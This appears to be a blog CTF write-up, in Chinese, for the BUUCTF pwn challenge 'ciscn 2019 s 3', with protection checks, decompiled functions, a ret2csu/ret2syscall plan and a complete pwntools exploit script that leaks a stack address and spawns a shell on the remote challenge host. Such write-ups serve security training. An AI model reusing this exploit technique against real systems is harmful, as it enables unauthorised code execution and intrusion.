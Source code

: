 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 s 3
date: 2022-3-24 12:17:03
permalink: /pages/2e1547494524d197
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 s 3

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_s_3/ciscn_s_3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return vuln();
}
```

vuln函数如下

```c
signed __int64 vuln()
{
  signed __int64 result; // rax

  __asm { syscall; LINUX - sys_read }
  result = 1LL;
  __asm { syscall; LINUX - sys_write }
  return result;
}
```

gadgets函数汇编代码及程序表如下

![ciscn_2019_s_3_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/ciscn_2019_s_3_1.png)

## 思路分析

1. 目前信息：
   - vuln函数可溢出
   - 无system无/bin/sh
   - gadgets内有execv调用号0x3b
   - No PIE
2. 思路：
   - 考虑ret2syscall方案，vuln函数除了可溢出外，在打印的0x20到0x28处将会泄漏一个栈上地址，减去相对偏移可以得到一开始写入数据的起始地址，在该地址内写入`/bin/sh\x00`，利用ret2csu，为execv("/bin/sh",0,0)，依次将寄存器赋值后，调用syscall获得shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_s_3/ciscn_s_3'
io=remote('node4.buuoj.cn',26437)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x10
vuln_addr = elf.symbols['vuln']
payload = b'/bin/sh\x00'.ljust(padding, b'\x00')
payload += flat([vuln_addr])
io.send(payload)
io.recv(0x20)
leak_buf_stack_addr = u64(io.recv(8))-0x118
success('binsh_addr:'+hex(leak_buf_stack_addr))
io.recv()
pop_rdi_ret=0x4005a3
csu_end = 0x040059A    # pop rbx rbp r12 r13 r14 r15
csu_front = 0x0400580
execv = 0x04004E2
syscall = 0x0400501
payload = b'/bin/sh\x00'.ljust(padding, b'a')
payload += flat([csu_end,0,0,leak_buf_stack_addr+0x50,0,0,0,csu_front])
# leak_buf_stack_addr+0x50将是call的地址 直接将程序流劫持到下面(0x50为前面写入的数据长度共十个栈帧)
payload += flat([pop_rdi_ret,leak_buf_stack_addr,execv,syscall])
io.send(payload)
io.interactive()
```
